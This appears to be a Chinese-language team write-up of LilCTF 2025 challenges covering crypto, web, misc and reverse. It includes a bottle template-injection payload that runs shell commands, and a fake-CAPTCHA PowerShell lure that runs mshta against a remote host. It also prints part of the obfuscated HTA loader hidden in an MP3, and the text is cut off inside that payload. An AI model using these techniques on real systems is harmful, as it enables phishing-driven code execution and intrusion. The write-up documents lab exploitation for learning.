

<!--  -->
# LilCTF 2025 非官方题解暨吐槽（TeamKIC 篇）
这里是 TeamKIC 的 LilCTF 2025 WP！本次比赛中，TeamKIC 得 2062 分，位于第 32 名。

队名来源于成员名的首字母，外加谐音鼓点中的 Kick：
- Klekta（昌九）
- Ishisashi
- Ctone（CT）

## \[misc\] 是谁没有阅读参赛须知？
解题者：KLEk

提交时间：2025-08-15 12:34:08 (UTC+8)

完全没什么可说的，我只是做了“是谁没有阅读参赛须知”这么一道题。甚至某种意义上我还是拖后腿的那位。

flag就在题干那里，我看见了就复制、点提交，这有什么可说的呢？
```
所有题目 flag 字符串的形式为 LILCTF{Me4n1ngFu1_w0rDs}，请提交包含 LILCTF{} 的完整 flag。
```

## \[crypto\] ez_math
解题者：Ishisashi

提交时间：2025-08-15 15:19:09 (UTC+8)

令 $A=\left\[\begin{matrix}v\_{11}&v\_{12}\cr v\_{21}&v\_{22}\end{matrix}\right\]$，则：

$\det A=v\_{11}v\_{22}-v\_{12}v\_{21}$

$A^{-1}=(\det A)^{-1}\left\[\begin{matrix}v\_{22}&-v\_{12}\cr-v\_{21}&v\_{11}\end{matrix}\right\]$

$B=\left\[\begin{matrix}\lambda\_1v\_{11}&\lambda\_1v\_{12}\cr\lambda\_2v\_{21}&\lambda\_2v\_{22}\end{matrix}\right\]=\left\[\begin{matrix}\lambda\_1&0\cr0&\lambda\_2\end{matrix}\right\]A$

$\begin{aligned}C=A^{-1}B&=(\det A)^{-1}\left\[\begin{matrix}v\_{22}&-v\_{12}\cr-v\_{21}&v\_{11}\end{matrix}\right\]\left\[\begin{matrix}\lambda\_1v\_{11}&\lambda\_1v\_{12}\cr\lambda\_2v\_{21}&\lambda\_2v\_{22}\end{matrix}\right\]\cr&=(\det A)^{-1}\left\[\begin{matrix}\lambda\_1v\_{11}v\_{22}-\lambda\_2v\_{12}v\_{21}&(\lambda\_1-\lambda\_2)v\_{12}v\_{22}\cr(\lambda\_2-\lambda\_1)v\_{11}v\_{21}&\lambda\_2v\_{11}v\_{22}-\lambda\_1v\_{12}v\_{21}\end{matrix}\right\]\end{aligned}$

又令 $C=\left\[\begin{matrix}\varphi\_{11}&\varphi\_{12}\cr\varphi\_{21}&\varphi\_{22}\end{matrix}\right\]$，则：

$\varphi\_{11}+\varphi\_{22}=(\det A)^{-1}(\lambda\_1+\lambda\_2)(v\_{11}v\_{22}-v\_{12}v\_{21})=\lambda\_1+\lambda\_2$

$\det C=\det\left(A^{-1}B\right)=(\det A)^{-1}\det\left\[\begin{matrix}\lambda\_1&0\cr0&\lambda\_2\end{matrix}\right\]\det A=\lambda\_1\lambda\_2$

于是得到了方程组 $\begin{cases}\lambda\_1+\lambda\_2=\varphi\_{11}+\varphi\_{22}\cr\lambda\_1\lambda\_2=\det C\end{cases}$。

由韦达定理，关于 $\lambda$ 的一元二次方程 $\lambda^2-(\varphi\_{11}+\varphi\_{22})\lambda+\det C=0$ 的两根即为 $\lambda\_1$ 与 $\lambda\_2$。

……这方程看上去怎么这么眼熟？还有 $\lambda$ 这个字母，似乎在哪里看到过……？不管了，先解再说。

Mathematica，启动！
```Wolfram
F = FiniteField[9620154777088870694266521670168986508003314866222315790126552504304846236696183733266828489404860276326158191906907396234236947215466295418632056113826161]
mat = {{F[7062910478232783138765983170626687981202937184255408287607971780139482616525215270216675887321965798418829038273232695370210503086491228434856538620699645], F[7096268905956462643320137667780334763649635657732499491108171622164208662688609295607684620630301031789132814209784948222802930089030287484015336757787801]}, {F[7341430053606172329602911405905754386729224669425325419124733847060694853483825396200841609125574923525535532184467150746385826443392039086079562905059808], F[2557244298856087555500538499542298526800377681966907502518580724165363620170968463050152602083665991230143669519866828587671059318627542153367879596260872]}}
Solve[x^2-(mat[[1]][[1]]+mat[[2]][[2]])x+Det[mat] == 0, x]
```
```Wolfram
{{x->310431440615324582056084165589022472378402725080813836002613},{x->461081882199191304136043558055592717274072444511548267131743}}
```
当然不知道哪个是 $\lambda\_1$ 哪个是 $\lambda\_2$，先读一下看看。
```Python
>>> long_to_bytes(310431440615324582056084165589022472378402725080813836002613)
b'1t_wa5_the_w0rst_of_t1me5'
>>> long_to_bytes(461081882199191304136043558055592717274072444511548267131743)
b'It_w4s_the_be5t_of_times_'
```
以「\_」结尾的应该是前半，Flag 也就拼好了。
```
LILCTF{It_w4s_the_be5t_of_times_1t_wa5_the_w0rst_of_t1me5}
```

### Omake：手稿


## \[crypto\] mid_math
解题者：Ishisashi

提交时间：2025-08-15 16:28:32 (UTC+8)

这次可是五阶方阵，不能再爆算了。

令 $T=\left\[\begin{matrix}a&0&0&0&0\cr0&b&0&0&0\cr0&0&c&0&0\cr0&0&0&d&0\cr0&0&0&0&0\end{matrix}\right\]$，则：

$B=TA$

$C=A^{-1}B=A^{-1}TA$

$D=C^\text{key}=\left(A^{-1}TA\right)^\text{key}=A^{-1}T^\text{key}A$

……我怎么觉得 $A^{-1}TA$ 这种形式有点眼熟？哦，$C$ 和 $T$ 是相似矩阵。而 $T$ 又是个对角矩阵，所以主对角线上就是 $C$ 的特征值！

难怪「ez_math」出现了 $\lambda$，原来 Flag 的两半就是 $C$ 的特征值啊。那个一元二次方程就是 $C$ 的特征方程。

回到本题。$C$ 的特征值是 $a$、$b$、$c$、$d$、$0$，那 $D$ 的特征值自然是 $a^\text{key}$、$b^\text{key}$、$c^\text{key}$、$d^\text{key}$、$0$。这样算出 $C$ 和 $D$ 的特征值就能快速找到指数 $\text{key}$ 了。
```Wolfram
F = FiniteField[14668080038311483271]
matC = {{F[11315841881544731102], F[2283439871732792326], F[6800685968958241983], F[6426158106328779372], F[9681186993951502212]}, {F[4729583429936371197], F[9934441408437898498], F[12454838789798706101], F[1137624354220162514], F[8961427323294527914]}, {F[12212265161975165517], F[8264257544674837561], F[10531819068765930248], F[4088354401871232602], F[14653951889442072670]}, {F[6045978019175462652], F[11202714988272207073], F[13562937263226951112], F[6648446245634067896], F[13902820281072641413]}, {F[1046075193917103481], F[3617988773170202613], F[3590111338369894405], F[2646640112163975771], F[5966864698750134707]}}
matD = {{F[1785348659555163021], F[3612773974290420260], F[8587341808081935796], F[4393730037042586815], F[10490463205723658044]}, {F[10457678631610076741], F[1645527195687648140], F[13013316081830726847], F[12925223531522879912], F[5478687620744215372]}, {F[9878636900393157276], F[13274969755872629366], F[3231582918568068174], F[7045188483430589163], F[5126509884591016427]}, {F[4914941908205759200], F[7480989013464904670], F[5860406622199128154], F[8016615177615097542], F[13266674393818320551]}, {F[3005316032591310201], F[6624508725257625760], F[7972954954270186094], F[5331046349070112118], F[6127026494304272395]}}
Eigenvalues[matC]
Eigenvalues[matD]
```
```Wolfram
{0,2524362820657834710,2915915082365181132,10741008122066331899,13548047239731931439}
{0,6321945571561295171,7126986745593039829,7805278355513795080,14219969811373602463}
```
不知道 $a$、$b$、$c$、$d$、$a^\text{key}$、$b^\text{key}$、$c^\text{key}$、$d^\text{key}$ 各是哪个。不过没关系，大不了穷举四次。

要算出素数域上的指数可以用离散对数。搜了个[网页](https://www.alpertron.com.ar/DILOG.HTM)计算。

运气很好，选用 (2524362820657834710, 6321945571561295171) 的话，得到的 5273966641785501202 就是密钥。
```Python
>>> from Crypto.Util.number import *
>>> from Crypto.Cipher import AES
>>> from Crypto.Util.Padding import pad
>>> key = pad(long_to_bytes(5273966641785501202), 16)
>>> aes = AES.new(key, AES.MODE_ECB)
>>> aes.decrypt(b"\xcc]B:\xe8\xbc\x91\xe2\x93\xaa\x88\x17\xc4\xe5\x97\x87@\x0fd\xb5p\x81\x1e\x98,Z\xe1n`\xaf\xe0%:\xb7\x8aD\x03\xd2Wu5\xcd\xc4#m'\xa7\xa4\x80\x0b\xf7\xda8\x1b\x82k#\xc1gP\xbd/\xb5j")
b'LILCTF{Are_y0u_5till_4wake_que5t1on_m4ker!}\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15\x15'
```
```
LILCTF{Are_y0u_5till_4wake_que5t1on_m4ker!}
```
感觉刚学过线性代数的人最会做呢。

### Omake：手稿


## \[web\] ez_bottle
解题者：RenzukaCtone

提交时间：2025-08-15 16:50:38 (UTC+8)

分析 .py。POST /upload 上传 ZIP 文件，远程端会将其解压至以生成的 MD5 命名的目录内。

此后 GET /view/<md5>/<filename>，脚本会检测有害字符(串)，若检测通过将执行 template(<文件内容>)。

诸如 {} os eval open 等关键词都无法通过检测。搜索 bottle.template 得知可以使用 % 开头来解释执行代码。exec 则用 subprocess.run 代替。

```python
% import subprocess
% subprocess.run(["cat /flag | tee 233.txt"], shell=True)
% subprocess.run('cp 233.txt "./static/233.txt"', shell=True)
```

存为文本打包上传执行，最后 GET /static/233.txt 得到 flag。

## \[misc\] v我50(R)MB
解题者：RenzukaCtone

提交时间：2025-08-15 17:09:07 (UTC+8)

访问靶机，F12，Chrome 上是可以显示一部分图像的。

文件头是 png，猜测是 Content-Length 导致传输提前终止。询问 ChatGPT 后，尝试进行分块传输：



```python
import socket

host = 'challenge.xinshi.fun'
port = 37292
request = b"GET /api/file/download/72ddc765-caf6-43e3-941e-eeddf924f8df HTTP/1.1\r\nHost: challenge.xinshi.fun\r\nConnection: close\r\n\r\n"
filename = "output.bin"

sock = socket.socket()
sock.connect((host, port))
sock.sendall(request)

with open(filename, "wb") as f:
    while True:
        chunk = sock.recv(4096)
        if not chunk:
            break
        f.write(chunk)

sock.close()
```

删掉 output.bin 中 PNG 文件头之前的内容，得到完整图片。


## \[reverse\] 1'M no7 A rO6oT
解题者：Ishisashi

提交时间：2025-08-15 19:14:11 (UTC+8)

我愿称此题为俄罗斯套娃（

直接按钓鱼网页的按钮，复制代码：
```
powershell . \*i*\\\\\\\\\\\\\\\*2\msh*e http://challenge.xinshi.fun:35287/Coloringoutomic_Host.mp3   http://challenge.xinshi.fun:35287/Coloringoutomic_Host.mp3 #     ✅ Ι am nοt a rοbοt: CAPTCHA Verification ID: 10086
```
`\*i*\\\\\\\\\\\\\\\*2\msh*e` 到底是甚么呢……？
```PowerShell
PS C:\Users\Ishisashi> ls \*i*\\\\\\\\\\\\\\\*2\msh*e


    目录: C:\Windows\System32


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        2024/12/18     18:19          36864 mshta.exe
```
搜寻发现 `mshta` 是用来执行 HTA 的（废话），所以说 Coloringoutomic_Host.mp3 藏着 HTA 代码？下载看看。

Foobar2000 读不出元数据，但 MPC-HC 可以。不过封面看上去损毁了，而且 MediaInfo 也报「Bitstream synchronisation is lost」。


用 Audition 打开提示元数据损坏。


看来里面混入了 HTA 代码。元数据给了 [Official audio file webpage](https://www.jamendo.com/en/track/2161171)，可以下到原始 MP3 档案。对比发现 \[0x2AD, 0x304) 和 \[0x70ED, 0xD7EC) 处插入了代码：
```
<HTA:APPLI xmlns:dummy="http://e.org" CATION showInTaskbar="no" windowState="minimize"><script>window.resizeTo(0, 0);window.moveTo(-9999, -9999); SK=102;UP=117;tV=110;Fx=99;nI=116;pV=105;wt=111;RV=32;wV=82;Rp=106;kz=81;CX=78;GH=40;PS=70;YO=86;kF=75;PO=113;QF=41;sZ=123;nd=118;Ge=97;sV=114;wl=104;NL=121;Ep=76;uS=98;Lj=103;ST=61;Ix=34;Im=59;Gm=101;YZ=109;Xj=71;Fi=48;dL=60;cX=46;ho=108;jF=43;Gg=100;aV=90;uD=67;Nj=83;US=91;tg=93;vx=45;xv=54;QB=49;WT=125;FT=55;yN=51;ff=44;it=50;NW=53;kX=57;zN=52;Mb=56;Wn=119;sC=65;Yp=88;FF=79;var SxhM = String.fromCharCode(SK,UP,tV,Fx,nI,pV,wt,tV,RV,pV,wt,wV,Rp,kz,CX,GH,PS,YO,kF,PO,QF,sZ,nd,Ge,sV,RV,wt,wl,NL,Ep,uS,Lj,ST,RV,Ix,Ix,Im,SK,wt,sV,RV,GH,nd,Ge,sV,RV,Gm,YZ,Xj,kF,RV,ST,RV,Fi,Im,Gm,YZ,Xj,kF,RV,dL,RV,PS,YO,kF,PO,cX,ho,Gm,tV,Lj,nI,wl,Im,RV,Gm,YZ,Xj,kF,jF,jF,QF,sZ,nd,Ge,sV,RV,tV,Gg,aV,uD,RV,ST,RV,Nj,nI,sV,pV,tV,Lj,cX,SK,sV,wt,YZ,uD,wl,Ge,sV,uD,wt,Gg,Gm,GH,PS,YO,kF,PO,US,Gm,YZ,Xj,kF,tg,RV,vx,RV,xv,Fi,QB,QF,Im,wt,wl,NL,Ep,uS,Lj,RV,ST,RV,wt,wl,NL,Ep,uS,Lj,RV,jF,RV,tV,Gg,aV,uD,WT,sV,Gm,nI,UP,sV,tV,RV,wt,wl,NL,Ep,uS,Lj,WT,Im,nd,Ge,sV,RV,wt,wl,NL,Ep,uS,Lj,RV,ST,RV,pV,wt,wV,Rp,kz,CX,GH,US,FT,QB,yN,ff,RV,FT,QB,it,ff,RV,FT,it,Fi,ff,RV,FT,Fi,it,ff,RV,FT,QB,NW,ff,RV,FT,QB,xv,ff,RV,FT,Fi,NW,ff,RV,FT,Fi,it,ff,RV,FT,Fi,kX,ff,RV,FT,Fi,kX,ff,RV,xv,zN,FT,ff,RV,FT,Fi,it,ff,RV,FT,it,QB,ff,RV,FT,Fi,it,ff,RV,xv,yN,yN,ff,RV,xv,zN,xv,ff,RV,FT,it,Fi,ff,RV,xv,yN,yN,ff,RV,xv,NW,Fi,ff,RV,xv,yN,yN,ff,RV,xv,zN,xv,ff,RV,FT,Fi,it,ff,RV,FT,QB,yN,ff,RV,xv,yN,yN,ff,RV,xv,Mb,xv,ff,RV,FT,QB,QB,ff,RV,FT,QB,NW,ff,RV,FT,Fi,it,ff,RV,FT,QB,xv,ff,RV,FT,QB,FT,ff,RV,FT,QB,NW,ff,RV,FT,Fi,xv,ff,RV,FT,Fi,Fi,ff,RV,FT,QB,FT,ff,RV,FT,Fi,it,ff,RV,FT,Fi,QB,ff,RV,xv,yN,yN,ff,RV,xv,zN,xv,ff,RV,FT,QB,QB,ff,RV,FT,QB,it,ff,RV,FT,QB,yN,ff,RV,xv,yN,yN,ff,RV,xv,yN,FT,ff,RV,xv,FT,Fi,ff,RV,xv,FT,QB,ff,RV,xv,Mb,NW,ff,RV,xv,FT,Fi,ff,RV,xv,yN,yN,ff,RV,xv,xv,it,ff,RV,xv,zN,QB,ff,RV,xv,kX,it,ff,RV,FT,QB,NW,ff,RV,FT,Fi,it,ff,RV,FT,Fi,zN,ff,RV,FT,Fi,it,ff,RV,FT,it,QB,ff,RV,xv,kX,zN,ff,RV,xv,NW,kX,ff,RV,xv,NW,kX,ff,RV,xv,FT,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,QB,FT,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,NW,ff,RV,FT,Fi,it,ff,RV,FT,QB,xv,ff,RV,xv,zN,QB,ff,RV,xv,zN,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,it,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,FT,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,FT,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,FT,Fi,it,ff,RV,xv,NW,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,yN,ff,RV,xv,NW,yN,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,NW,ff,RV,xv,kX,kX,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW